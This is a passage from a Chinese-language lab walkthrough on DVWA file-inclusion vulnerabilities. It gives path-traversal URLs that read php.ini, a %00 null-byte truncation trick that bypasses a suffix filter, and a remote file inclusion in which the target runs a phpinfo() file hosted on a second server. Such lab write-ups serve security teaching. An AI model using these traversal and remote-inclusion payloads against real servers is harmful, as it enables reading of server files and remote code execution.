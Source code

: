     成功读取了服务器的 php.ini 文件

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=file4.php`

- **构造url(相对路径)**

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini`

    加这么多 ../ 是为了保证到达服务器的C盘根目录,可以看到读取是成功的.

    ![](../../../../assets/img/安全/实验/Misc/dvwa/dvwa19.png)

    同时我们看到,配置文件中的 Magic_quote_gpc 选项为 off.在 php 版本小于 5.3.4 的服务器中,当 Magic_quote_gpc 选项为 off 时,我们可以在文件名中使用 %00 进行截断,也就是说文件名中 %00 后的内容不会被识别,即下面两个 url 是完全等效的.

    1. http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini

    2. http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini%0012.php

    使用 %00 截断可以绕过某些过滤规则,例如要求 page 参数的后缀必须为 php,这时链接 A 会读取失败,而链接 B 可以绕过规则成功读取.

**远程文件包含**

当服务器的 php 配置中,选项 allow_url_fopen 与 allow_url_include 为开启状态时,服务器会允许包含远程服务器上的文件,如果对文件来源没有检查的话,就容易导致任意远程代码执行.

在远程服务器 B 上传一个 phpinfo.txt 文件,内容如下
```php
<?php

phpinfo();

?>
```

构造url `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=http://<服务器B IP地址!!!>/phpinfo.txt`

成功在服务器上执行了 phpinfo 函数

![](../../../../assets/img/安全/实验/Misc/dvwa/dvwa20.png)
